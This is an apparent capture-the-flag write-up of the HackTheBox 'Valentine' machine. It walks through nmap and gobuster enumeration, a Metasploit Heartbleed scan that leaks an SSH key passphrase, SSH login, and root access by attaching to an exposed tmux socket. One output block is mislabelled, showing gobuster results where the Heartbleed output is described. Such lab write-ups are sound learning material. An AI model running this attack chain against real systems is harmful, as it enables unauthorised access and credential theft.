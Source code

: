```yaml
---
title: "HackTheBox - Valentine"
author: Nasrallah
description: ""
date: 2023-02-11 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, tmux, heartbleed, ssh]
img_path: /assets/img/hackthebox/machines/valentine
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Valentine](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com).

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.10.79
Host is up (0.43s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 964c51423cba2249204d3eec90ccfd0e (DSA)
|   2048 46bf1fcc924f1da042b3d216a8583133 (RSA)
|_  256 e62b2519cb7e54cb0ab9ac1698c67da9 (ECDSA)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.22 (Ubuntu)
443/tcp open  ssl/http Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Not valid before: 2018-02-06T00:45:25
|_Not valid after:  2019-02-06T00:45:25
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_ssl-date: 2023-02-01T08:18:01+00:00; -1s from scanner time.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We see three open ports.

 - 22/tcp OpenSSH

 - 80/tcp HTTP Apache

 - 443/tcp SSL/HTTP Apache.


### Web

Let's check the web page.

![](1.png)

Judging by the heart logo, i believe we'll be doing a heartbleed exploit.

### Metasploit

Let's launch metasploit and use `auxiliary/scanner/ssl/openssl_heartbleed`.

We set the following options and run the exploit.

```terminal
[msf](Jobs:0 Agents:0) auxiliary(scanner/ssl/openssl_heartbleed) >> set rhosts 10.10.10.79                                                                    
rhosts => 10.10.10.79                                                                                                                                         
[msf](Jobs:0 Agents:0) auxiliary(scanner/ssl/openssl_heartbleed) >> set verbose true                                                                          
verbose => true
```

![](2.png)

After multiple tries, we managed to retrieve a base64 encoded string.

```terminal
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.79
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/02/01 17:09:37 Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 288]
/.hta                 (Status: 403) [Size: 283]
/.htaccess            (Status: 403) [Size: 288]
/cgi-bin/             (Status: 403) [Size: 287]
/decode               (Status: 200) [Size: 552]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.79/dev/]
/encode               (Status: 200) [Size: 554]                              
/index                (Status: 200) [Size: 38]                               
/index.php            (Status: 200) [Size: 38]                               
/server-status        (Status: 403) [Size: 292]                              
                                                                             
===============================================================
```

We found **/dev/**, let's check it out.

![](3.png)

The directory allows listing, and we can see a note.txt and hype_key file. The latter has some hex numbers that when decode give us a private ssh key.

![](4.png)

## **Foothold**

Let's copy the ssh key to our machine and give the right permissions.

We also see that the key is encrypted, which means we need a passphrase to be able to connect with it.

Tha passphrase is the decoded base64 we managed to get from the heartbleed exploit.

Now let's ssh to the machine as `hype`

![](5.png)


## **Privilege Escalation**

Checking files inside hype's home directory, we see that .bash_history file is not empty.

![](6.png)

The user seems to connect to a tmux session at `/.devs/dev_sess`, let's do the same.

```terminal
hype@Valentine:~$ tmux -S /.devs/dev_sess 
open terminal failed: missing or unsuitable terminal: tmux-256color
hype@Valentine:~$ echo $TERM
tmux-256color
hype@Valentine:~$ export TERM=xterm
```

Couldn't do it because of the terminal type i had. I solved it by exporting TERM=xterm.

Now we attach the the tmux session and it should work and we should get a root shell `tmux -S /.devs/dev_sess`

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
